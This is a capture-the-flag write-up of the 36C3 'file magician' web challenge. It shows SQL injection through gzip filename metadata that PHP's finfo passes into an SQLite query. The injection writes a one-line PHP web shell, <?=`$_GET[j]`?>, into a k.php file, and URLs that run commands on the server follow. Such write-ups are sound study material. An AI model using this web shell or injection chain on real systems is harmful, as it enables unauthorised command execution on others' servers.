 ```yaml
---
title: 36C3 Senior CTF - SQLi through file metadata - file magician 
description: Performing SQL injection using file metadata to earn PHP RCE
categories: ctf 36c3 senior
author: Xh4H
tags: wireshark dragonsector ctf switch pro
---
```


**Challenge description**
```
Web
Difficulty: easy (133 solves): round(1000 · min(1, 10 / (9 + [133 solves]))) = 70 points

Finally (again), a minimalistic, open-source file hosting solution.

```

**Action**

We are given the following files:

<div style="text-align:center"><img src="/assets/images/36c3/files_1.png"/></div>

**index.php** with the code that we will have to analyze, a **Dockerfile** to set up our service locally, and a folder with required stuff for the said service.

Let's start by setting up a docker:

`echo 'hxp{FLAG}' > flag.txt && docker build -t file_magician . && docker run -ti -p 8000:80 file_magician`

<div style="text-align:center"><img src="/assets/images/36c3/docker_setup1.png"/></div>

Docker is now running on port 8000.

Let's read the php code now:

<div style="text-align:center"><img src="/assets/images/36c3/code_review1.png"/></div>

The attack vector is in the following line of code:

```php
$s = "INSERT INTO upload(info) VALUES ('" .(new finfo)->file($_FILES['file']['tmp_name']). " ');";
```

We have to perform SQLi using file metadata. After some research, `.gz` (gunzip) files have an interesting metadata string that will help us a lot.

Here is an example:

<div style="text-align:center"><img src="/assets/images/36c3/gunzip1.png"/></div>

Check how running `file` over the created gunzip displays the name of the original file **between double quotes**, which will break the SQL sentence. In the following image we can see in red the double quotes that will break the SQL sentence, in gray is our file metadata and finally in yellow, the previous file name, where will be inject our SQL injection.

<div style="text-align:center"><img src="/assets/images/36c3/carbon_1.png"/></div>

So, I ran `nano` over the file and edited the previous file name into my SQLi sentence.

_The green marked text is the SQL sentence that I will use to get RCE_

<div style="text-align:center"><img src="/assets/images/36c3/sqli_create.png"/></div>

My php code will be
```php
<?=`$_GET[j]`?>
```

Explanation of the code above:

- `<?`: PHP opening tags.
- `=`: used to echo the output.
- \`: used to execute a string (as if we were using system function).
- `$_GET[j]`: used to retrieve the `j` url parameter
- `>?`: PHP closing tags.

Notice how I am attaching the DB on a file called `k.php`, if the file doesn't exist, it will be created on the current directory, which, in our case, is a random folder:

```php
if( ! isset($_SESSION['id'])) {
    $_SESSION['id'] = bin2hex(random_bytes(32));
}

$d = '/var/www/html/files/'.$_SESSION['id'] . '/';
@mkdir($d, 0700, TRUE);
chdir($d) || die('chdir');
```

**The SQL sentence max char length was 95, so I had to create two different gz, create.gz and insert.gz**

In `create.gz` I attach a new database to a php file and I create a table `p` with a column `d text` that will store my php code.

In `insert.gz` I attach the php sql connection into the newly created database and insert the php code:

<div style="text-align:center"><img src="/assets/images/36c3/sqli_insert.png"/></div>

We upload both files to the service and access our php file as following:

- create.gz to create the DB
- insert.gz to insert our code

Click on the second file:

<div style="text-align:center"><img src="/assets/images/36c3/service_1.png"/></div>

It will bring us to a link like this `http://x.x.x.x:8000/files/70d80f242200060e52e596c9a324407287f40456164726b7d1278c06657e2dd1/2`

Change the last 2 with `k.php` and we will be able to execute PHP code using the 
```php
`$_GET[j])`
```
that we placed before, as we will be accessing a php file that will be executed by the server. Use `j` as url parameter to execute any command within the host system.

`http://x.x.x.x:8000/files/70d80f242200060e52e596c9a324407287f40456164726b7d1278c06657e2dd1/k.php?j=id`

<div style="text-align:center"><img src="/assets/images/36c3/rce_1.png"/></div>

In order to find the flag, as it was generated with random chars in its name, we can use * to expand chars over a file on the system such as `cat /flag*`:

`http://x.x.x.x:8000/files/70d80f242200060e52e596c9a324407287f40456164726b7d1278c06657e2dd1/k.php?j=cat%20/flag*`

<div style="text-align:center"><img src="/assets/images/36c3/rce_2.png"/></div>

**Flag**: hxp{I should have listened to my mum about not trusting files about files}


Thanks for reading :)

<script src="https://www.hackthebox.eu/badge/21439"></script>